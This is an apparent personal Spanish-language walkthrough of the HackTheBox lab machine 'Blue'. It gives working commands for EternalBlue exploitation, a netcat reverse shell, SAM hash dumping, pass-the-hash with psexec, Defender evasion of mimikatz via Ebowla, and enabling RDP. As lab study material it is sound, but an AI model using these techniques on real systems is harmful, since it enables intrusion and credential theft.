 # Blue

Tags: [[_cve]],[[_persistenceTechniques]]

## Primeros pasos
(Reconocimiento).

<span style="color:#07b4f2">Organizamos</span> <span style="color:#ff2dc0">TMUX</span>.
<span style="color:#07b4f2">Activamos</span> <span style="color:#ff2dc0">VPN</span>.

Le <span style="color:#07b4f2">hacemos</span> un <span style="color:#ff2dc0">ping</span> <span style="color:#07b4f2">a</span> la <span style="color:#ff2dc0">máquina</span>. (<span style="color:#379075">Está activa o no</span>).
<span style="color:#bef202">Posible</span> <span style="color:#ff2dc0">máquina Windows</span>.

<span style="color:#07b4f2">Ponemos</span> la <span style="color:#ff2dc0">IP</span> de la <span style="color:#ff2dc0">máquina</span> <span style="color:#07b4f2">en</span> un <span style="color:#07b4f2">lugar visible</span>.
<span style="color:#07b4f2">Creamos</span> un <span style="color:#07b4f2">directorio</span> <span style="color:#07b4f2">como</span> la <span style="color:#ff2dc0">IP</span> o <span style="color:#07b4f2">nombre</span> de la <span style="color:#ff2dc0">máquina</span>.
<span style="color:#07b4f2">Creamos</span> los <span style="color:#07b4f2">directorios</span> de <span style="color:#07b4f2">trabajo</span>.

<span style="color:#bef202">Empezamos el escaneo con</span> <span style="color:#ff2dc0">NMAP</span>. <span style="color:#379075">Otro escaneo de puertos comunes por posibles falsos negativos</span>.
En este caso <span style="color:#07b4f2">no buscamos</span> <span style="color:#ff2dc0">codename</span> con <span style="color:#ff2dc0">launchpad</span>.

+ <span style="color:#ff669c">Puertos abiertos</span>

<span style="color:#ff669c">135</span> - RPC.
<span style="color:#ff669c">139</span> - NetBios.
<span style="color:#ff669c">445</span> - SMB. <span style="color:#379075">Windows 7</span>.
Y <span style="color:#07b4f2">más desde</span> el <span style="color:#ff669c">49152</span> en <span style="color:#07b4f2">adelante</span>.


## Investigación (Intrusión)
(Reconocimiento/Enumeración).

<span style="color:#ff669c">445</span>.
Vemos que es un<span style="color:#ff2dc0"> Windows 7</span>, <span style="color:#07b4f2">probemos</span> si es vulnerable al <span style="color:#ff2dc0">Eternal Blue</span>.
<span style="color:#88c425">nmap --script="vuln and safe" -p445 10.10.10.40  -oN EBscan</span>:    <span style="color:#ff2dc0">vulnerable</span>.

<span style="color:#88c425">Clonamos</span> https://github.com/worawit/MS17-010
<span style="color:#88c425">python checker.py 10.10.10.40</span> :    con <span style="color:#ecacb6">python2.7</span> 
<span style="color:#07b4f2">No detecta</span> <span style="color:#ff2dc0">named pipes</span>, pero si <span style="color:#07b4f2">modificamos</span> el <span style="color:#ff2dc0">script</span> y ponemos<span style="color:#ecacb6"> USERNAME = 'guest'</span> sí funciona.

<span style="color:#07b4f2">Usamos</span> el <span style="color:#ecacb6">42315.py</span>, es el que <span style="color:#07b4f2">está</span> en <span style="color:#ff2dc0">searchsploit</span>, <span style="color:#379075">y lo metemos en el directorio MS17-010</span>.
<span style="color:#07b4f2">Modificamos</span> el <span style="color:#ecacb6">42315.py</span>
<span style="color:#ff2dc0">Comentamos</span> y <span style="color:#ff2dc0">descomentamos</span> lo <span style="color:#07b4f2">importante</span>.
!(/images/Pasted image 20241208105113.png)

Creamos un <span style="color:#ff2dc0">recurso compartido a nivel de red</span>, <span style="color:#07b4f2">ofreciendo</span> el <span style="color:#ecacb6">nc.exe</span>
Nos ponemos en <span style="color:#ff2dc0">escucha</span> por el <span style="color:#ff669c">puerto</span> especificado.
Ejecutamos el <span style="color:#ff2dc0">script</span>
<span style="color:#88c425">python 42315.py 10.10.10.40</span> :    y pa deeentro.


## Escalada

Enumerar todo el sistema.
Estamos como el usuario <span style="color:#ecacb6">nt authority\system</span> debido a que al <span style="color:#ff2dc0">explotar</span> el <span style="color:#ff2dc0">Eternal Blue</span>, se gana <span style="color:#07b4f2">acceso</span> como el <span style="color:#ecacb6">usuario</span> <span style="color:#ff2dc0">privilegiado</span>.

Fin.

<span style="color:#bef202">EXTRA</span>.
<span style="color:#ecacb6">1.-</span> <span style="color:#07b4f2">Obtener</span> <span style="color:#ff2dc0">Hashes NTLM</span>.
En <span style="color:#ff2dc0">máquina víctima</span>.
<span style="color:#88c425">reg save HKLM\sam sam.backup</span>
<span style="color:#88c425">reg save HKLM\system system.backup</span>

En <span style="color:#07b4f2">mi</span> <span style="color:#ff2dc0">máquina</span>.
Creo un <span style="color:#ff2dc0">recurso compartido</span> a nivel de red <span style="color:#07b4f2">por</span> <span style="color:#ff2dc0">SMB</span>.

En <span style="color:#ff2dc0">máquina víctima</span>.
<span style="color:#07b4f2">Me los</span> <span style="color:#ff2dc0">transfiero</span>.

En <span style="color:#07b4f2">mi</span> <span style="color:#ff2dc0">máquina</span>.
<span style="color:#88c425">impacket-secretsdump -sam sam.backup -system system.backup LOCAL</span>
!(/images/20241208125302.png)

<span style="color:#88c425">crackmapexec smb 10.10.10.40 -u 'administrator' -H 'cdf51b162460b7d5bc898f493751a0cc' --lsa</span> :    <span style="color:#07b4f2">tratar</span> de <span style="color:#07b4f2">ver</span> <span style="color:#ff2dc0">credenciales</span> en <span style="color:#ff2dc0">texto claro</span>.

<span style="color:#88c425">impacket-psexec WORKGROUP/Administrator@10.10.10.40 -hashes :cdf51b162460b7d5bc898f493751a0cc</span> :    <span style="color:#ff2dc0">conectarme</span> <span style="color:#07b4f2">con</span> <span style="color:#ff2dc0">psexec</span> 


<span style="color:#ecacb6">2.-</span><span style="color:#ff2dc0"> Dumpear credenciales </span><span style="color:#07b4f2">de</span> la <span style="color:#ff2dc0">memoria</span>.
En <span style="color:#07b4f2">mi</span> <span style="color:#ff2dc0">máquina</span>.
<span style="color:#ff2dc0">Ebowla</span> para <span style="color:#07b4f2">eludir</span> el <span style="color:#ff2dc0">Defender</span>.
Clonamos https://github.com/Genetic-Malware/Ebowla
<span style="color:#88c425">mv mimikatz.exe Ebowla</span>
<span style="color:#88c425">cd Ebowla</span>
<span style="color:#88c425">vim genetic.config</span>
<span style="color:#ecacb6">output_type = GO</span>
<span style="color:#ecacb6">payload_type = EXE</span>

<span style="color:#ecacb6">[[ENV_VAR]]</span> :    hay que <span style="color:#07b4f2">ponerlas bien</span>, porque <span style="color:#07b4f2">se toman</span> las <span style="color:#ff2dc0">variables de entorno</span> de la <span style="color:#07b4f2">propia</span> <span style="color:#ff2dc0">máquina</span> para lograr <span style="color:#07b4f2">subir</span> el <span style="color:#ff2dc0">archivo</span> deseado.
Con <span style="color:#07b4f2">estas</span> son <span style="color:#07b4f2">suficientes</span>.
!(/images/20241208132242.png)

Necesita <span style="color:#ecacb6">python2</span>, hago
<span style="color:#88c425">cp -r /home/joelkami/Documentos/HTB/Maquinas/Blue/content/Ebowla .</span> :    <span style="color:#07b4f2">lo llevo a</span> mi <span style="color:#ff2dc0">entorno virtual</span>.
<span style="color:#88c425">pip install configobj</span> :    lo necesita.
<span style="color:#88c425">apt install mingw-w64</span> :    lo necesita.

<span style="color:#88c425">python ebowla.py mimikatz.exe genetic.config</span> 
<span style="color:#88c425">./build_x64_go.sh output/go_symmetric_mimikatz.exe.go final_mimi.exe</span>
<span style="color:#88c425">ls output/final_mimi.exe</span> :    ya lo podríamos <span style="color:#ff2dc0">subir</span> <span style="color:#07b4f2">a</span> la <span style="color:#ff2dc0">máquina víctima</span>.

En <span style="color:#ff2dc0">máquina víctima</span>.
<span style="color:#88c425">final_mimi.exe</span> :    entramos a una <span style="color:#ff2dc0">sesión interactiva</span>.
<span style="color:#88c425">privilege::debug</span>
<span style="color:#88c425">sekurlsa::logonPasswords</span>
Y podríamos <span style="color:#07b4f2">ver</span> las <span style="color:#ff2dc0">credenciales</span> en <span style="color:#07b4f2">claro</span>.


<span style="color:#ecacb6">3.-</span> <span style="color:#ff2dc0">Habilitar</span> y <span style="color:#ff2dc0">conectarnos</span> <span style="color:#07b4f2">por</span> <span style="color:#ff2dc0">RDP</span>.
<span style="color:#88c425">crackmapexec smb 10.10.10.40 -u 'administrator' -p 'ejfnIWWDojfWEKM' -M rdp -o action=enable</span> :    usamos un <span style="color:#ff2dc0">módulo</span> de <span style="color:#ff2dc0">crackmapexec</span> para <span style="color:#07b4f2">habilitar</span> el <span style="color:#ff2dc0">RDP</span>.

<span style="color:#88c425">rdesktop 10.10.10.40 -u 'Administrator' -p 'ejfnIWWDojfWEKM'</span> 


<span style="color:#ecacb6">4.-</span> <span style="color:#ff2dc0">Persistence</span> (<span style="color:#379075">intrusive</span>).
En <span style="color:#ecacb6">Vulnerabilidades y Temas/Persistence Techniques/Persistence CheatSheets</span> <span style="color:#07b4f2">tenemos</span> distintas <span style="color:#07b4f2">vías</span>.
